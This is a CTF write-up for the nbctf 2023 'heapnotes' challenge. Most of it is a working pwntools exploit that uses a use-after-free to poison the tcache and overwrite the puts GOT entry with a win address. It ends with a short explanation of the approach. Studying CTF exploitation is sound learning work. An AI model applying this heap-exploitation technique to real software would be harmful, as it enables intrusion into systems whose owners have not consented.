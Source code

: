 ```python
from pwn import *  
  
  
elf = context.binary = ELF("./heapnotes_patched", checksec=True)  
libc = elf.libc  
#context.log_level = "debug"  
  
gs = """  
continue"""  
  
def start():  
 with context.quiet:  
   if args.GDB:  
     return gdb.debug(elf.path, gdbscript=gs, api=True)  
   elif args.REMOTE:  
     return remote(host, port)  
   else:  
     return process(elf.path)  
  
io = start()  
#io = remote("chal.nbctf.com", 30172)  
io.timeout = 1  
  
  
def malloc(data):  
   io.sendlineafter(b"> ", b"1")  
   io.sendlineafter(b": ", data)  
  
def free(index):  
   io.sendlineafter(b"> ", b"4")  
   io.sendlineafter(b": ", str(index).encode())  
  
def uaf(index, data):  
   io.sendlineafter(b"> ", b"3")  
   io.sendlineafter(b": ", str(index).encode())  
   io.sendlineafter(b": ", data)  
  
  
malloc(b"cafebabe")  # filler chunk so we can gain an actual FD on the second chunk  
malloc(b"pwnpwnwp")  # our chunk we will be using for our uaf->tcache poison  
  
free(0)  # first chunk to get freed in tcache always points to NULL, FD=NULL  
free(1)  # gain a forward ptr, we will overwrite the tcache FD with puts got and then overwrite puts got with the win address  
got_puts = p64(0x404020)  
uaf(1, got_puts)  # overwrite the FD with puts got  
malloc(b"beefdead")  # remove chunk from tcache  
malloc(p64(0x401276))  # overwrite puts got with the win address  
  
io.interactive()  
```  
  
---
## **Heaped-notes** `nbctf` 2023 write-up 
- we can malloc static sizes, free any chunk, write to any chunk and read from any chunk.
- i decided to go with a use-after-free->tcache poison.
- i overwrite got puts with the win address and popped a shell, ez.